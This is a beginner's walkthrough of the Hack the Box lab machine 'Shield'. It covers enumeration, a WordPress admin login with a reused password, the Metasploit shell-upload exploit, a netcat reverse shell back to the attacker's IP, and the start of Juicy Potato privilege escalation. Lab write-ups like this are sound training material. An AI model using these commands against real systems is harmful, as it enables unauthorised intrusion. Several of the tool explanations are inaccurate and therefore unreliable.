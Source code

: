 # Shield

Welcome to Another walkthrough! This walkthrough will be based on Hack the Box starting point machine "Shield". Remember all links in this walkthrough will lead you to educatonal sources to learn more about the topic I am discussing at that point in time. I will try to do my best to explain everything in detail, but keep in mind I am learning just like you are! I hope this helps you as much as it is going to help me and enjoy your journey! 
# Enumeration
Step 1: Nmap Scan
  - As always we are going to start out with our friendly nmap scan `nmap -sS -A -oN NMAP.txt 10.10.10.29`
    - This command will scan the machine and output the results to a text file "NMAP.txt"
    ![image](https://user-images.githubusercontent.com/29686845/134412007-c23344ed-3160-4531-9386-8df0a3c6ab16.png)
  - We see that two ports are open: Port 80/tcp HTTP and Port 3306/tcp mysql. 

Step 2: Port 80: HTTP
  - Lets check out port 80 the webpage.
      ![image](https://user-images.githubusercontent.com/29686845/134413396-20d418a2-ab0e-4587-8954-1b4b351b3193.png)
    - We seem to land on a [IIS](https://docs.microsoft.com/en-us/troubleshoot/iis/configure-default-document-iis)             starting page. 
      - I tried using burpsuite and checking the webpage source/storage to see if there were any subdirectories we can           gain access too or if there were any cookies we could exploit as we did in the machines Ooopsie & Vaccine.             There was no useful information there either. 
    - Eventhough this doesn't give us much information it does give us an important piece of the puzzle. We now know that       they are running windows server (Just incase you didn't pick that up from the nmap scan). In turn we might need to       run windows commands in the future.
    - Instead lets try using the tool [GoBuster](https://tools.kali.org/web-applications/gobuster).

Step 3: GoBuster
  - [GoBuster](https://tools.kali.org/web-applications/gobuster) is a tool that allows us to brute force URIs or             directories or files in webpages and to brute force DNS sub-domains. 
  - If you dont already have GoBuster installed (which I did not) Run the command `sudo apt install gobuster` 
    - Lets run the command: 
    - `gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt`
      - lets break down this command down a little bit since we are running a new tool.
      - gobuster: is the tool that we are calling to use
      - dir: is the windows equvalent to ls
      - -u: is to sepcifiy the target URL
      - -w: is to specifiy a wordlist. In this case we are going to use the common.txt.
    - Now we are going to let this run while it brute forces the password so we can get into different directories.           This may take a few minutes to complete.
      ![image](https://user-images.githubusercontent.com/29686845/134419257-79fa5f82-f03d-4b6a-900a-75b400fe5594.png)
    - We see that there is a is another directory /wordpress. so lets add that to our url. 
    - It should loook like `http://10.10.10.29/wordpress` 

# Foothold

Step 1: Word Press. 
  - The wepage seems to be a site advertising an electric truck with a smoke screen despensor and run flat tires. After exploring the page and more specifically exploring their blog we can find a link to log in. 
      ![image](https://user-images.githubusercontent.com/29686845/134676948-446c1e95-6e10-43c7-a2d0-9b0edcbabf26.png)
      ![image](https://user-images.githubusercontent.com/29686845/134677083-ba663149-978f-4dcb-9807-680cff595e87.png)
    - One thing to keep in mind is that the website is using [WordPress](https://wordpress.com/). WordPress is a a           Content Maagement system (CMS) that allows users to spin up a webpage or blog quickly and effiecently.
    - WordPress gerenally uses the username `admin` for the default credentials and since all the starting point             machines seem to follow eachother; we can try previous passwords we have from other machines to see if it works.
    - After some trial and error we find that the username and password is `admin : P@s5w0rd!`
      ![image](https://user-images.githubusercontent.com/29686845/134679391-7eb7bbdb-d230-47ca-a716-360fcead5bcd.png)
    - Now that we have access to the admin page we can look around, but it doesn't seem like we will have much access         to anything useful. 
    - I did some Research on [exploiting WordPress](https://hackertarget.com/attacking-wordpress) and it seems we can         exploit it with Metasploit's [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/)

Step 2: msfconsole
  - Metasploits [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/) is an all in one tool     that provides many different resources for enumertion, exploitation, and much more.
  - based on the exploit that I reviewed which used one of the tools in `exploit/unix/webapp` so i decided I would look     there to see if anyhting of interest. 
    - we can use the command: `search exploit/unix/webapp/wp` to see what options that Metasploit has to offer.
    - The first option we can see is `wp_admin_shell_upload` whcih catches my eye.
      ![image](https://user-images.githubusercontent.com/29686845/134682886-bcee6fc3-69ec-4c87-a47f-0cae241ad3dc.png) 
    - Metasploit offers a a few options that we can use to call this command from our search command: `use 0` or we can       call the whole tool and path with: `use /exploit/unix/webapp/wp_admin_shell_upload`
      - You can only use the `use 0` command after you have done a seaerch. your calling the number of results from our         search, so if you wanted to use a different exploit you would call that numver instead.
  - Now we are going to set some optoins before we run our exploit. This will tell msfconsole the who/what/when/where       to attack with our exploit.
    - `set USERNAME admin`
    - `set PASSWORD P@s5w0rd!`
    - `set TARGETURI /wordpress
    - `set RHOSTS 10.10.10.29`
    - `set LHOST < to your tun0 IP address >` (Forgot this and realized when it wasn't wokring)
      ![image](https://user-images.githubusercontent.com/29686845/134686497-8936a54b-69f9-4fcd-b98b-b7c4f8f300c4.png)
    - We have all of our peramaters set now lets run the exploit. we can type `use` or `exploit` <-- the funniest one         of the two. 
      ![image](https://user-images.githubusercontent.com/29686845/134688488-b5465433-988a-429f-966f-d0d8d2ce9f40.png)
    - Now we have our meterpreter connection and we can get a shell by typing `shell` 
      - shell can be a little finicky at times so we can work with it or we can upgrade our shell with netcat to               provide us with more stable shell.

Step 3: Netcat

  - Kali Linux has builting resources and scripts and we are going to be calling on nc.exe to upgrade our meterpreter       shell.
    - in your kali machine directory `/usr/share/windows-resources/binaries/` you will find the nc.exe. 
    - We can copy that with the `cp` command to any directory you would like and we can call on it withing our               meterpreter as long as we provide the absolute path.
    - Within our meterpreter session lets use the local change directory command (lcd):
    - `lcd /home/splash/HTB/Starting_Point/Shield` this is my direct path to the nc.exe. (you will use yours)
    - still within our meterpreter session we will change the directory to:
    - `\inetpub\wwwroot\wordpress\wp-content\uploads`
    - Now lets upload our nc.exe with `upload nc.exe`
      ![image](https://user-images.githubusercontent.com/29686845/134699318-166baca3-2660-4a5d-b9df-98403840bff9.png)
    - We have our .exe file uploaded, so lets set up a listner and execute it:
    - run our listener `nc -lvnp 1234` in another terminal on your kali machine
    - run `execute -f nc.exe -a "-e cmd.exe 10.10.14.14 1234"` in our meterpreter session. (Keep in mind that is your         tun0 ip and set listening port)
      ![image](https://user-images.githubusercontent.com/29686845/134704321-d793013a-501c-4785-94de-df6ff2c87601.png)
      ![image](https://user-images.githubusercontent.com/29686845/134704375-c84761db-08a2-462c-b7db-2d0b73595884.png)
    - We have successful set up our more stable reverse shell.

# Privilege Escalation

Here is a [cheatsheet](http://www.cs.columbia.edu/~sedwards/classes/2015/1102-fall/Command%20Prompt%20Cheatsheet.pdf) for linux to windows commands. We are going to need it moving forward since we have a shell into a windwos machcine.

Step 1: System Information
  - First lets get some information about the system we are conencted to and see if we can find a way to get admin/root permissions.
    - Lets start by running the `systeminfo` command.
      ![image](https://user-images.githubusercontent.com/29686845/134710727-8bc1854d-0610-4911-8430-dcfc1a83ba00.png)
    - We see that we find that the os is Windows Server 2016 Standard, Version: 10.0.143393 Build 14383

Step 2: Juicy Potato
  - We are going to use a tool called [Juicy Potato](https://github.com/ohpe/juicy-potato.git). This is a varient of the tool [Rotton Potato](https://github.com/breenmachine/RottenPotatoNG). This allows services accounts to escalate to system privilges by leveraging the [BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal). Along with privileged access tokens in order to complete a [MiTM](https://www.rapid7.com/fundamentals/man-in-the-middle-attacks/) attack. 
